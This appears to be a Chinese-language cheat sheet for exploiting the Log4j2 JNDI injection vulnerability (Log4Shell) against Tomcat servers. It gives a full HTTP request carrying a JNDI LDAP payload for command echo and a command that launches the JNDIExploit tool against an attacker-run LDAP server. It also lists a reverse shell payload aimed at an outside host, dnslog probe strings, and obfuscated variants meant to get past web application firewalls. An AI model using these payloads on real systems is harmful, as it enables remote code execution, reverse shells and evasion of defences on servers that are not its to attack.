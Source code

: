 tomcat回显方法：

* 参考文章：https://zone.huoxian.cn/d/729-log4j2

```
POST /api/ HTTP/1.1
Host: xxxxx:6631
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
cmd: whoami
Content-Type: application/x-www-form-urlencoded
Content-Length: 57

data=${jndi:ldap://10.30.0.142:1389/Basic/SpringEcho}





```

`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 10.30.0.142 -p 9190`

```
payload=${jndi:ldap://10.30.0.142:1389/TomcatBypass/TomcatEcho}
```

反弹shell： `data=${jndi:ldap:// 10.30.1.112:1389/Basic/ReverseShell/xxxx/5551}`

其它dnslog payload：

```
c=${jndi:ldap://xxx.dnslog.cn}
```

$%7bjndi:ldap://c65yoi.dnslog.cn/exp%7d

Bypass WAF

```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```

图形化测试工具：https://github.com/nice0e3/log4j\_POC
